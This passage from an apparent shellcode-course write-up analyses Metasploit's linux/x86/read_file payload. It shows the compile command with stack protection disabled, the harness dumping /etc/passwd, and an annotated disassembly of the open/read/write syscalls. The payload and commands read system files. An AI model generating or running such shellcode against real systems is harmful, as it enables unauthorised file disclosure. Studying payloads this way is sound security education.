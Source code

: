 As a POC, the C program is compiled as an executable binary with stack-protection disabled, and executed resulting in a shellcode size of 4 bytes:

```bash
osboxes@osboxes:~/Downloads/SLAE$ gcc -fno-stack-protector -zexecstack readfile_shellcode.c -o readfile
osboxes@osboxes:~/Downloads/SLAE$ ./readfile 
Shellcode length:  4
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
osboxes:x:1000:1000:osboxes.org,,,:/home/osboxes:/bin/bash
```

The Ndisasm tool (similar to GDB) is used to step through the program code and analyze the system calls:

```bash
osboxes@osboxes:~/Downloads/SLAE$ msfvenom -p linux/x86/read_file PATH=/etc/passwd --arch x86 --platform linux | ndisasm -u -
No encoder or badchars specified, outputting raw payload
Payload size: 73 bytes

00000000  EB36		jmp short 0x38		        ; jmp to address 0x38 (jmp, call, pop)
00000002  B805000000    mov eax,0x5			; open syscall = 0x5
00000007  5B            pop ebx				; pop address of /etc/passwd into ebx
00000008  31C9          xor ecx,ecx			; zeroize ecx register, open file as O_RDONLY
0000000A  CD80          int 0x80			; call the interrupt to execute the open syscall
0000000C  89C3          mov ebx,eax			; move eax into ebx (0x5)
0000000E  B803000000    mov eax,0x3			; read syscall = 0x3
00000013  89E7          mov edi,esp			; move stack pointer into edi
00000015  89F9          mov ecx,edi			; move stack pointer into ecx
00000017  BA00100000    mov edx,0x1000		        ; move 0x1000 (4096) into edx 
0000001C  CD80          int 0x80			; call the interrupt to execute the read syscall
0000001E  89C2          mov edx,eax			; size of read data
00000020  B804000000    mov eax,0x4			; write syscall = 0x4 
00000025  BB01000000    mov ebx,0x1			; move 0x1 (stdout) into ebx stdout
0000002A  CD80          int 0x80			; call the interrupt to execute the write syscall 
0000002C  B801000000    mov eax,0x1			; exit syscall = 0x1
00000031  BB00000000    mov ebx,0x0			; move 0 (exit/return code) into ebx
00000036  CD80          int 0x80			; call the interrupt to execute the exit syscall
00000038  E8C5FFFFFF    call 0x2			; jmp up, put next instruction onto the stack
0000003D  2F            das				; read the file contents (/etc/passwd)
0000003E  657463        gs jz 0xa4
00000041  2F            das
00000042  7061          jo 0xa5
00000044  7373          jnc 0xb9
00000046  7764          ja 0xac
00000048  00            db 0x00
```

The disassembled code consists of the following components:
